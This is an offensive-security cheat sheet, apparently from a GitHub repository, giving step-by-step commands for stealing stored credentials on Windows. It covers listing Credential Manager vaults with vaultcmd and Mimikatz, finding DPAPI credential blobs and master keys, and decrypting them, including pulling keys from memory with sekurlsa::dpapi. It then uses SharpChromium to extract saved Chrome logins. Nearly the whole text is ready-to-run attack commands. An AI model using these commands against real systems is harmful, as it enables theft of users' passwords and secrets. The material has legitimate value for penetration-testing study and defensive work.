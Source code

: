 ### Credential manager
#### Dump vault for current user
```
run vaultcmd /listcreds:"Windows Credentials" /all
Invoke-Mimikatz -Command '"vault::list"'
```
#### Check for blobs for user
- Can be in Roaming or Local for all commands!
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials -Hidden
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials -Hidden
```

#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<BLOB ID>"'
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID> -Hidden
```

#### Get master encryption key
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /rpc"
```

#### Get master encryption keys from memory
```
Invoke-Mimikatz -Command '"sekurlsa::dpapi"'
```

#### Get MasterKey with User's Password
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /sid:<USER SID> /password:<PASSWORD> /protected
```

#### Decrypt credential
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>"'
```

### Chrome
#### List SQLlite database
- A non-null Login Data file is a good indication that credentials are saved in here
```
ls C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default
```

#### Decrypt data
- https://github.com/djhohnstein/SharpChromium
```
.\SharpChromium.exe logins
```
